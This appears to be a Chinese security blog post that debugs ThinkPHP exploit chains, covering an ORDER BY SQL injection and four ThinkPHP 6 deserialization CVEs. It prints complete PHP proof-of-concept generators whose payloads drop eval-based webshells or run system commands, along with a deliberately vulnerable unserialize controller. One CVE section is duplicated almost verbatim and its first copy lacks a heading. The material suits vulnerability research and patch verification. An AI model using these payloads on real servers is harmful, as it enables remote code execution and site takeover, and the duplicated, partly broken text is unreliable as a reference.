








代码审计之 tp 各版本链子调式随笔

- - -

# 代码审计之 tp 各版本链子调式随笔

闲暇之余，整理审计复现了 tp 各版本的漏洞，下面做一个知识面整理。

## CVE-2018-16385

## 简介

在 ThinkPHP5.1.23 之前的版本中存在 SQL 注入漏洞，该漏洞是由于程序在处理 order by 后的参数时，未正确过滤处理数组的 key 值所造成。如果该参数用户可控，且当传递的数据为数组时，会导致漏洞的产生。

### 范围

ThinkPHP < 5.1.23

### 配置

安装 thinkphp5.1.22

```plain
git clone https://github.com/top-think/think.git
git checkout v5.1.22
修改 composer.json 的 topthink/framework 值为 5.1.22
composer install
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304105730-f14c0b6a-d9d2-1.png)

测试成功在 config/database.php 配置好数据库连接参数数据库创建一个 user 表，表里创建一个 id 字段 config/app.php 里的 debug 模式改为 true  
修改 Index.php:

```plain
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        echo "index";
        return '<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px;} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"> <h1>:) </h1><p> ThinkPHP V5.1<br/><span style="font-size:30px">12 载初心不改（2006-2018） - 你值得信赖的 PHP 框架</span></p></div><script type="text/javascript" src="https://tajs.qq.com/stats?sId=64890268" charset="UTF-8"></script><script type="text/javascript" src="https://e.topthink.com/Public/static/client.js"></script><think id="eab4b9f840753f8e7"></think>';
    }

    public function hello($name = 'ThinkPHP5')
    {
        return 'hello,' . $name;
    }
    public function sql(){
        echo "hello ,this is sql test!";
        $data=array();
        $data['id']=array('eq','test');
        $order=$_GET['order'];
        $m=db('user')->where($data)->order($order)->find();
        dump($m);
    }

}
```

## 分析

find() 函数->中间跳了很多->/thinkphp/library/think/db/Builder.php parseOrder() 的函数!\[\]  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240304105816-0c59b7c2-d9d3-1.png)  
foreach 函数将$order 数组分为 key 和 value 形式。进入 parseOrderField() 函数!\[\]  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240304105823-10ab0a38-d9d3-1.png)  
这里重点是 foreach 循环对$val 的值做处理，但是这个 val 的值不用管，最后拼接 sql 语句是 key 的值，val 在 key 后面，可以用注释符注释掉进入 parseDataBind() 函数!\[\]  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240304105832-15b55d94-d9d3-1.png)

这里最后返回字符串，对传入的 key 的前面拼接了字符串::data**id,111)|updatexml(1,concat(0x3a,user()),1)#0  
然后回到 parseOrderField() 函数  
return 'field(' . $this->parseKey($query, $key, true) . ',' . implode(',', $val) . ')' . $sort;  
调用 Mysql 的 parseKey() 函数  
拼接了一对反引号在 key 变量两头:id,111)|updatexml(1,concat(0x3a,user()),1)#最后返回:field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0) 然后回到了 Builer.php 的 parseOrder() 函数

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110220-9decf76c-d9d3-1.png)

ORDER BY field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0) 一直调试到后面可以看到 sql 语句:SELECT \* FROM user WHERE id IN (:where\_AND\_id\_in\_1,:where\_AND\_id\_in\_2) ORDER BY field(id,111)|updatexml(1,concat(0x3a,user()),1)#,:data**id,111)|updatexml(1,concat(0x3a,user()),1)#0) LIMIT 1

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110227-a1d4aa96-d9d3-1.png)

这里由于 field 函数，漏洞利用有两个关键点：

1.  field() 函数必须指定大于等于两个字段才可以正常运行，否则就会报错，当表中只有一个字段时，我们可以随意指定一个数字或字符串的参数
2.  当 field 中的参数不是字符串或数字时，指定的参数必须是正确的表字段，否则程序就会报错。这里由于程序会在第一个字段中加 限制 ,所以必须指定正确的字段名称。第二个字段没有限制，可以指定字符串或数字

## 简介

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php 发现一个反序列化漏洞。

### 范围：

thinkphp<6.0.9

### 环境

这里装 tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删 lock 文件改 comoser.json 重新 composer install 一遍

### 调试

很简单的链子。应该是最短的了 Poc:

```plain
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是 abstract class AbstractCache 中的\_\_destruct 方法  
但是 PHP 的抽象方法不能被实例化，因此需要实例化它的子类，这里选择的是 League\\Flysystem\\Cached\\Storage 的 Adapter.php  
然后进入 Adapter.php 的 save() 方法：目标是进入 write() 方法，里面有 file\_put\_contents，这里参数都可以控制首先看一下 getForStorage() 方法，它影响了 write 函数写入文件的内容 content 它会返回一个 json 加密的数据，这个参数是 cache,protected $cache = \[\];我们实例化的时候可控进入 cleanContents() 函数：我们只需要传入的 cache 是一个一维数组就不会进入 if 语句然后考虑这个 this->adapter 变量，这里找的是同时具有 has() 方法和 write() 方法的类，找到的是 League\\Flysystem\\Adapter 的 Local.php  
首先 has 方法我们需要保证返回 false 进入 applyPathPrefix() 很简单的字符串拼接，我们传入的$this->file 只要是一个不存在的文件就行进入 write() 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110315-beebfeea-d9d3-1.png)

一样的先调用 applyPathPrefix() 方法，拼接一下文件路径，这里做的限制是删除路径的/字符，tp 默认写入文件就是 public 目录我们不需要设置路径最后成功写入木马  
此外我们看下 Y4tacker 师傅的 poc

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的 complete 变量，因为$contents = $this->getForStorage();我们跟进 getForStorage() 方法就可以发现 return json\_encode(\[$cleaned, $this->complete, $this->expire\]);我们自然可以只赋值 complete 变量

### 参考

[https://zhuanlan.zhihu.com/p/652094569](https://zhuanlan.zhihu.com/p/652094569)

## CVE-2021-36564

### 简历

ThinkPHP v6.0.8 通过组件 vendor\\league\\flysystem-cached-adapter\\src\\Storage\\Adapter.php 发现一个反序列化漏洞。

### 范围：

thinkphp<6.0.9

### 环境

这里装 tp6.0.8  
composer create-project topthink/think=6.0.x tp6.0.8  
老规矩删 lock 文件改 comoser.json 重新 composer install 一遍

### 调试

很简单的链子。应该是最短的了 Poc:

```plain
<?php
namespace League\Flysystem\Adapter;
class Local{}
namespace League\Flysystem\Cached\Storage;
use League\Flysystem\Adapter\Local;
abstract class AbstractCache{
    protected $autosave;
    protected $cache = [];
}
class Adapter extends AbstractCache{
    protected $adapter;
    protected $file;
    function __construct(){
        $this->autosave=false;
        $this->adapter=new Local();
        $this->file='huahua.php';
        $this->cache=['huahua'=>'<?php eval($_GET[1]);?>'];
    }
}
$o = new Adapter();
echo urlencode(serialize($o));

?>
```

入口点是 abstract class AbstractCache 中的\_\_destruct 方法  
但是 PHP 的抽象方法不能被实例化，因此需要实例化它的子类，这里选择的是 League\\Flysystem\\Cached\\Storage 的 Adapter.php  
然后进入 Adapter.php 的 save() 方法：目标是进入 write() 方法，里面有`file_put_contents,这里参数都可以控制首先看一下getForStorage()方法,它影响了write函数写入文件的内容content它会返回一个json加密的数据,这个参数是cache,protected $cache = [];我们实例化的时候可控进入`cleanContents()`函数:我们只需要传入的cache是一个一维数组就不会进入if语句然后考虑这个this->adapter变量,这里找的是同时具有`has()\`方法和 write() 方法的类，找到的是 League\\Flysystem\\Adapter 的 Local.php  
首先 has 方法我们需要保证返回 false 进入 applyPathPrefix() 很简单的字符串拼接，我们传入的$this->file 只要是一个不存在的文件就行进入 write() 方法一样的先调用 applyPathPrefix() 方法，拼接一下文件路径，这里做的限制是删除路径的/字符，tp 默认写入文件就是 public 目录我们不需要设置路径最后成功写入木马  
此外我们看下 Y4tacker 师傅的 poc

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    use League\Flysystem\Filesystem;

    abstract class AbstractCache{
        protected $autosave = false;


    }
    class Adapter extends AbstractCache
    {
        protected $adapter;
        protected $file;

        public function __construct(){
            $this->complete = "*/<?php phpinfo();?>";
            $this->expire = "永遠的神y4";
            $this->adapter = new \League\Flysystem\Adapter\Local();
            $this->file = "y4tacker.php";
        }

    }
}

namespace League\Flysystem\Adapter{
    class Local extends AbstractAdapter{

    }
    abstract class AbstractAdapter{
        protected $pathPrefix;
        public function __construct(){
            $this->pathPrefix = "./";
        }
    }
}

namespace {

    use League\Flysystem\Cached\Storage\Adapter;
    $a = new Adapter();
    echo urlencode((serialize($a)));
}
```

区别就是初始化的时候赋值的 complete 变量，因为$contents = $this->getForStorage();我们跟进 getForStorage() 方法就可以发现 return json\_encode(\[$cleaned, $this->complete, $this->expire\]);我们自然可以只赋值 complete 变量

## CVE-2021-36567

### 描述

ThinkPHP v6.0.8 已通过组件 League\\Flysystem\\Cached\\Storage\\AbstractCache 包含反序列化漏洞。

### 范围

thinkphp<=6.0.8,Linux 系统，因为核心是把 system(json 加密的数据),类似： 
\[\["`whoami`"\],\[\]\]  
这样的结果返回，Windows 肯定不会执行成功，Linux 可以返回，虽然没有回显但是命令执行函数已经执行了。所以我们可以写木马文件  
\[\[jmx\],\[\]\]: command not found

### Poc

```plain
<?php
namespace League\Flysystem\Cached\Storage{
    abstract class AbstractCache
    {
        protected $autosave = false;
        protected $complete = [];
        protected $cache = ['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'];
    }
}

namespace think\filesystem{
    use League\Flysystem\Cached\Storage\AbstractCache;
    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $key;
        public function __construct($store,$key,$expire)
        {
            $this->key    = $key;
            $this->store  = $store;
            $this->expire = $expire;
        }
    }
}

namespace think\cache{
    abstract class Driver{

    }
}
namespace think\cache\driver{
    use think\cache\Driver;
    class File extends Driver
    {
        protected $options = [
            'expire'        => 0,
            'cache_subdir'  => false,
            'prefix'        => false,
            'path'          => 'y4tacker',
            'hash_type'     => 'md5',
            'serialize'     => ['system'],
        ];
    }
}
namespace{
    $b = new think\cache\driver\File();
    $a = new think\filesystem\CacheStore($b,'y4tacker','1111');
    echo urlencode(serialize($a));

}
```

### 分析

这个链子也非常简单 League\\Flysystem\\Cached\\Storage\\AbstractCache 的\_\_destruct

```plain
public function __destruct()  
{  
    if (! $this->autosave) {  
        $this->save();  
    }  
}
```

think\\filesystem 的 CacheStore.php 的 save() 方法:getForStorage() 方法调试多了都有经验了，这里设置的 cache 是一维数组会直接返回 cache 的值： 
\['`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`'\]  
最后返回 json\_encode 函数处理后的结果  
\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]  
然后进入$this->store->set，也就是 think\\cache\\driver\\File 的 set() 方法：创建文件目录和文件名后进入 serialize 方法这里提前设置了$this->options\['serialize'\]为 system 执行  
system('\[\["`echo PD9waHAgZXZhbCgkX1BPU1RbMV0pOz8+|base64 -d > 2.php`"\],\[\]\]')  
最后虽然没有返回但是命令也被执行了，成功创建文件  
我们自然可以只赋值 complete 变量，把 cache 变量设置为空数组也可以

## CVE-2022-33107

### 适用范围

thinkphp<=6.0.12  
Poc:

```plain
<?php
namespace think\model\concern{
    trait Attribute{
        private $data = ['huahua'];
    }
}

namespace think\view\driver{
    class Php{}
}
namespace think\session\driver{
    class File{

    }
}
namespace League\Flysystem{
    class File{
        protected $path;
        protected $filesystem;
        public function __construct($File){
            $this->path='huahua.php';
            $this->filesystem=$File;
        }
    }
}
namespace think\console{
    use League\Flysystem\File;
    class Output{
        protected $styles=[];
        private $handle;
        public function __construct($File){
            $this->styles[]='getDomainBind';
            $this->handle=new File($File);
        }
    }
}
namespace think{
    abstract class Model{
        use model\concern\Attribute;
        private $lazySave;
        protected $withEvent;
        protected $table;
        function __construct($cmd,$File){
            $this->lazySave = true;
            $this->withEvent = false;
            $this->table = new route\Url(new Middleware,new console\Output($File),$cmd);
        }
    }
    class Middleware{
        public $request = 2333;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{}
}

namespace think\route{
    class Url
    {
        protected $url = 'a:';
        protected $domain;
        protected $app;
        protected $route;
        function __construct($app,$route,$cmd){
            $this->domain = $cmd;
            $this->app = $app;
            $this->route = $route;
        }
    }
}


namespace{
    $zoe='<?= phpinfo(); exit();//';
    echo urlencode(serialize(new think\Model\Pivot($zoe,new think\session\driver\File)));
}
```

### 分析

入口点在 think\\Model\\的**destruct() 方法进入 save() 方法进入 insertData() 方法进入 checkAllowFields() 方法进入 db() 方法执行$query->table($this->table . $this->suffix);语句此时开始进入链子了，拼接对象和字符串造成 toString 魔术方法调用，think\\route 的 Url.phpif 语句一直进不去，最后跑到  
$bind = $this->route->getDomainBind($domain && is\_string($domain) ? $domain : null);  
然后进入 getDomainBind() 方法，这里设置了 domain 的值，直接进入了 Output.php 的**call() 方法：call\_user\_func\_array(\[$this, 'block'\], $args);  
Output.php 的 block() 方法->writeln() 方法  
$this->writeln("<{$style}>{$message}</$style>");  
Output.php 的 writeln() 方法->write() 方法： 
$this->write($messages, true, $type);  
此时 message 为<getdomainbind>write() 方法  
$this->handle->write($messages, $newline, $type);  
$this->handle 被设置的 League\\Flysystem\\File，调用它的 write() 方法</getdomainbind>

```plain
public function write($content)  
{  
    return $this->filesystem->write($this->path, $content);  
}
```

$this->filesystem 被设置的 think\\session\\driver\\File，调用它的 write() 方法：最后执行 file\_put\_contents 写入木马文件

## CVE-2022-38352

### 影响版本：Thinkphp <= v6.0.13

### 介绍：

攻击者可以通过组件 League\\Flysystem\\Cached\\Storage\\Psr6Cache 包含反序列化漏洞，目前的 Thinkphp6.1.0 以上已经将 filesystem 移除了 因为此处存在好多条反序列化漏洞  
安装和前一篇文章一样，这里为了方便就用上一篇文章的 6.0.12 了

### poc:

```plain
<?php

namespace League\Flysystem\Cached\Storage{

    class Psr6Cache{
        private $pool;
        protected $autosave = false;
        public function __construct($exp){
            $this->pool = $exp;
        }
    }
}

namespace think\log{
    class Channel{
        protected $logger;
        protected $lazy = true;

        public function __construct($exp){
            $this->logger = $exp;
            $this->lazy = false;
        }
    }
}

namespace think{
    class Request{
        protected $url;
        public function __construct(){
            $this->url = '<?php system(\'calc\'); exit(); ?>';
        }
    }
    class App{
        protected $instances = [];
        public function __construct(){
            $this->instances = ['think\Request'=>new Request()];
        }
    }
}

namespace think\view\driver{
    class Php{}
}

namespace think\log\driver{

    class Socket{
        protected $config = [];
        protected $app;
        public function __construct(){

            $this->config = [
                'debug'=>true,
                'force_client_ids' => 1,
                'allow_client_ids' => '',
                'format_head' => [new \think\view\driver\Php,'display'],
            ];
            $this->app = new \think\App();

        }
    }
}

namespace{
    $c = new think\log\driver\Socket();
    $b = new think\log\Channel($c);
    $a = new League\Flysystem\Cached\Storage\Psr6Cache($b);
    echo urlencode(base64_encode(serialize($a)));
}
```

### 分析

在 Index.php 添加反序列化点：

```plain
<?php
namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index(){
        if($_POST["a"]){
            unserialize(base64_decode($_POST["a"]));
        }
        return "hello";
    }

    public function hello($name = 'ThinkPHP6')
    {
        return 'hello,' . $name;
    }
}
```

在 unserialize 打断点，进入调试首先是 Psr6Cache.php 的父类的 AbstractCache.php 的\_\_destruct() 方法：

```plain
public function __destruct()
    {
        if (! $this->autosave) {
            $this->save();
        }
    }
```

这个 autosave 可控，设置为 false 进入 Psr6Cache.php 的 save() 方法这里的 pool 变量也可控，可以调用任意一个对象的\_\_call 方法，这里我们选择的是 think\\log\\Channel 对象

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110413-e10e465e-d9d3-1.png)

然后是调用 log() 方法，$method 就是函数名 getItem(这里没啥用),然后调用 record() 方法!\[\]

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110424-e7c8e49a-d9d3-1.png)

直接走到 if 语句，这里$this->lazy 我们可控，直接设置为 false 就可以进入 if 语句调用 save() 方法走到 if 语句，我们可以控制 logger 的值，这里设置为 think\\log\\driver\\Socket() 对象，然后调用 think\\log\\driver\\Socket()::save() 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110433-ecfc89da-d9d3-1.png)

这里先执行 check() 函数：我们想要 check 函数返回 true 需要设置 config\['force\_client\_ids'\]为 true,config\['allow\_client\_ids'\]是空然后回到 save() 方法，需要设置 config\['debug'\]为 true，然后 if 语句判断 if ($this->app->exists('request')) 这里我们将$this->app 设置为\\think\\App，而这个类没有 exists 方法，会调用父类 Container.php 的 exists() 方法

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110442-f2b46f32-d9d3-1.png)

跟进 getAlias() 方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110451-f79a5e9e-d9d3-1.png)

注释告诉我们根据别名获取真实类名，这里是\\think\\Request，调试可以发现$this->bind 就是\\think\\App 的 bind 变量，里面设置了键 request 的值为 Request::class，这里$bind 被赋值了\\think\\Request，重新进入 getAlias() 函数没有进入 if 语句直接返回了\\think\\Request，而出来后的  
return isset($this->instances\[$abstract\])  
返回为 true，因为我们自定义了\\think\\App 的 instances 变量，在 Poc 里可以发现，为 new Request() 然后回到 Socket.php 的 save() 方法接着走，调用 Request 的 url 方法，这个 Request 对象也被我们重写了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110511-0389e5f8-d9d4-1.png)

调用 domain 方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110524-0b61eda2-d9d4-1.png)

最后返回 http://<?php system('calc'); exit(); ?>$currentUri 变量的值为 http://<?php system('calc'); exit(); ?>而后判断 config\['format\_head'\],执行 invoke 函数这里设置的 config\['format\_head'\]为数组：\[new \\think\\view\\driver\\Php,'display'\]App.php 没有 invoke 方法，调用父类 Container.php 的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240304110539-14302e12-d9d4-1.png)

